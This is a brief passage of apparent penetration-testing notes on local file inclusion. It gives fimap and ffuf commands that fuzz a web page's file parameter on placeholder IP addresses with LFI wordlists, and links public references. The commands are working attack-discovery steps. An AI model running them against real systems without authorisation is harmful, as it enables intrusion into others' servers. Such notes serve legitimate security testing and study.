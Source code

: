 ### FIMAP

```zsh
fimap.py -u 'http://IP_ADDRESS/page.php?file=bang'
```

Source: <https://github.com/kurobeats/fimap>

### FUFF

```zsh
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt:FUZZ -u 'http://R_IP_ADDRESS/?page=FUZZ'
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://R_IP_ADDRESS/?page=FUZZ'
ffuf -w FI_linux.lst:FUZZ -u 'http://R_IP_ADDRESS/?page=FUZZ'
```

## Sources

- <https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/>
- <https://n0a110w.github.io/notes/security-stuff/file-inclusions.html>
- <https://highon.coffee/blog/lfi-cheat-sheet/>
- <https://book.hacktricks.xyz/pentesting-web/file-inclusion>
